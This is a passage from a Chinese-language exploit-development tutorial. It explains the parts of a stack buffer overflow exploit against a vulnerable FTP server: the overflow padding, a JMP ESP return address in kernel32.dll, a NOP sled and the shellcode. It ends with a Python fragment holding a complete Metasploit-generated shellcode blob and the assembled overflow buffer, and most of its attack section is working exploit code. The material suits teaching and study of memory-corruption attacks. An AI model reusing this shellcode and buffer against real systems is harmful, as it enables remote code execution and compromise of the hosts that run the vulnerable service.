 在存在很多种编写 exploit 方法的今天，基于堆栈缓冲区溢出的方法提供了原始的 exploit 向量。而且大量的 exploit 还在增加。2011 年 7 月，我的一个朋友发布了一个针对脆弱的 FTP 服务器的 exploit。虽然开发 exploit 似乎是一个很复杂的任务，但实际的攻击代码却少于 80 行(包含约 30 行的 shell 代码)。

## 添加攻击的关键元素

让我们开始构建我们的 exploit 的关键元素。首先我们设置我们的 shellcode 变量包含 Metasploit 框架为我们生成的十六进制编码的攻击荷载。接下来我们设置我们的溢出变量包含 246 个字母 A 的实例(16 进制为`\x41`)。我们返回的地址变量指向一个`kernel.dll`地址，包含了一个直接跳到栈顶端的指令。我们填充包含一系列 150 个`NOP`指令的变量。这构建了我们的 NOP 滑铲。最后我们集合所有的变量组成一个变量，我们称为碰撞。

## 基于堆栈缓冲区溢出 exploit 的基本要素

溢出：用户的输入超过了预期在栈中分配的值。

返回地址：被用来直接跳转到栈顶端的 4 个字节的地址。在接下来的 exploit 中，我们用 4 个字节的地址指向`kernel.dll`的`JMP ESP`指令。

填充物：在 shellcode 之前的一系列的`NOP`(空指令)指令。允许攻击者猜测直接跳到的地址。如果攻击者跳到`NOP`滑铲的任何地方，它将直接滑到 shellcode。

Shellcode：一小段汇编机器码。在下面的例子中，我们将利用 Metasploit 生成 Shellcode 代码。

```py
shellcode = ("\xbf\x5c\x2a\x11\xb3\xd9\xe5\xd9\x74\x24\xf4\x5d\x33\xc9"
    "\xb1\x56\x83\xc5\x04\x31\x7d\x0f\x03\x7d\x53\xc8\xe4\x4f"
    "\x83\x85\x07\xb0\x53\xf6\x8e\x55\x62\x24\xf4\x1e\xd6\xf8"
    "\x7e\x72\xda\x73\xd2\x67\x69\xf1\xfb\x88\xda\xbc\xdd\xa7"
    "\xdb\x70\xe2\x64\x1f\x12\x9e\x76\x73\xf4\x9f\xb8\x86\xf5"
    "\xd8\xa5\x68\xa7\xb1\xa2\xda\x58\xb5\xf7\xe6\x59\x19\x7c"
    "\x56\x22\x1c\x43\x22\x98\x1f\x94\x9a\x97\x68\x0c\x91\xf0"
    "\x48\x2d\x76\xe3\xb5\x64\xf3\xd0\x4e\x77\xd5\x28\xae\x49"
    "\x19\xe6\x91\x65\x94\xf6\xd6\x42\x46\x8d\x2c\xb1\xfb\x96"
    "\xf6\xcb\x27\x12\xeb\x6c\xac\x84\xcf\x8d\x61\x52\x9b\x82"
    "\xce\x10\xc3\x86\xd1\xf5\x7f\xb2\x5a\xf8\xaf\x32\x18\xdf"
    "\x6b\x1e\xfb\x7e\x2d\xfa\xaa\x7f\x2d\xa2\x13\xda\x25\x41"
    "\x40\x5c\x64\x0e\xa5\x53\x97\xce\xa1\xe4\xe4\xfc\x6e\x5f"
    "\x63\x4d\xe7\x79\x74\xb2\xd2\x3e\xea\x4d\xdc\x3e\x22\x8a"
    "\x88\x6e\x5c\x3b\xb0\xe4\x9c\xc4\x65\xaa\xcc\x6a\xd5\x0b"
    "\xbd\xca\x85\xe3\xd7\xc4\xfa\x14\xd8\x0e\x8d\x12\x16\x6a"
    "\xde\xf4\x5b\x8c\xf1\x58\xd5\x6a\x9b\x70\xb3\x25\x33\xb3"
    "\xe0\xfd\xa4\xcc\xc2\x51\x7d\x5b\x5a\xbc\xb9\x64\x5b\xea"
    "\xea\xc9\xf3\x7d\x78\x02\xc0\x9c\x7f\x0f\x60\xd6\xb8\xd8"
    "\xfa\x86\x0b\x78\xfa\x82\xfb\x19\x69\x49\xfb\x54\x92\xc6"
    "\xac\x31\x64\x1f\x38\xac\xdf\x89\x5e\x2d\xb9\xf2\xda\xea"
    "\x7a\xfc\xe3\x7f\xc6\xda\xf3\xb9\xc7\x66\xa7\x15\x9e\x30"
    "\x11\xd0\x48\xf3\xcb\x8a\x27\x5d\x9b\x4b\x04\x5e\xdd\x53"
    "\x41\x28\x01\xe5\x3c\x6d\x3e\xca\xa8\x79\x47\x36\x49\x85"
    "\x92\xf2\x79\xcc\xbe\x53\x12\x89\x2b\xe6\x7f\x2a\x86\x25"
    "\x86\xa9\x22\xd6\x7d\xb1\x47\xd3\x3a\x75\xb4\xa9\x53\x10"
    "\xba\x1e\x53\x31")
overflow = "\x41" * 246
ret = struct.pack('&lt;L', 0x7C874413)  #7C874413 JMP ESP kernel32.dll
padding = "\x90" * 150
crash = overflow + ret + padding + shellcode 
```
